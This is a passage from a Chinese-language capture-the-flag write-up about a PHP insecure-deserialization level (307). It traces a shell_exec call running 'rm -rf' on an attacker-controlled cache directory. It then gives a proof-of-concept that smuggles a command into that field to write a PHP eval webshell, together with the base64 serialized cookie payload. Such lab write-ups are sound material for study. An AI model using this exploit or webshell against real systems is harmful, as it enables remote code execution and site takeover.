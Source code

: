 ```php

$a = new dao();
echo base64_encode(serialize($a));
```

还是传到cookie里，然后访问一下index.php就可以把马写入了

![](https://i.loli.net/2021/10/06/R9jLMI34XQyoP6s.png)

flag在flag.php里



## 307 反序列化传马

> 是不是顺眼多了

把文件分类放好了，seay一扫发现两个：![](https://i.loli.net/2021/10/06/YvhdcNmqJ9QCf7T.png)
找到shell_exec在dao.php里

```php
	public function  clearCache(){
		shell_exec('rm -rf ./'.$this->config->cache_dir.'/*');
	}
```

再找调用它的地方

![](https://i.loli.net/2021/10/06/U6zXYIWpMs8R7hb.png)

看了一下，决定在logout.php操作

```php
$service = unserialize(base64_decode($_COOKIE['service']));
if($service){
	$service->clearCache();
}
```

poc：

```php
<?php

class config{
    public $cache_dir = ';echo  "<?php eval(\$_POST[1]);?>" > a.php;';
}

class dao{
    private $config;
        public function __construct(){
        $this->config=new config();
    }
}


$a = new dao();
echo base64_encode(serialize($a));

# TzozOiJkYW8iOjE6e3M6MTE6IgBkYW8AY29uZmlnIjtPOjY6ImNvbmZpZyI6MTp7czo5OiJjYWNoZV9kaXIiO3M6NDM6IjtlY2hvICAiPD9waHAgZXZhbChcJF9QT1NUWzFdKTs/PiIgPiBhLnBocDsiO319
```
